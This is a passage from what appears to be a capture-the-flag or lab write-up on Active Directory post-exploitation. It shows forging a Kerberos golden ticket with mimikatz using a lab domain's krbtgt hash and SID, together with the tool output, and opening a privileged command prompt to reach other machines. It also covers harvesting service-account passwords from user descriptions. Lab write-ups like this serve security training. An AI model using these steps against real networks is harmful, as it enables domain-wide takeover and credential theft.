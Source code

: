 2. we need the SID which is (``S-1-5-21-849420856-2351964222-986696166``) the user which is ``krbtgt`` and the NTLM hash which is ``5508500012cc005cf7082a9a89ebdfdf`` also our administrator id which is ``500``
3. put everything toget for the golden ticket: ``kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf id:500``

```shell
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-
21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf id:500   
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/21/2022 5:46:43 PM ; 6/18/2032 5:46:43 PM ; 6/18/2032 5:46:43 PM      
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

  Use Golden Ticket to Access Other Machines

1. ``misc::cmd`` to open a new command promt with elevated privileges to all machines

```shell
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7676543B8 
````

2. Access other machines from command promt!

* * * 

## Task 6 - Enumeration w/ Server Manager 

- the main tabs that will be most interesting are the tools and manage tabs the tools tab is where you will find most of your information such as users, groups, trusts, computers. 
- The manage tab will allow you to add roles and features however this will probably get picked up by a systems admin relatively quick.
- Dont worry about the AD CS, AD DS, DNS, or File and Storage Services these are setup for exploitation of the active directory and dont have much use for post-exploitation

1. Navigate to the tools tab top right and select the Active Directory Users and Computers. This will pull up a list of all users on the domain as well as some other useful tabs to use such as groups and computers. Some sys admins dont realize that you as an attacker can see the descriptions of user accounts so they may set the service accounts passwords inside of the description look into the description and find what the SQL Service password is
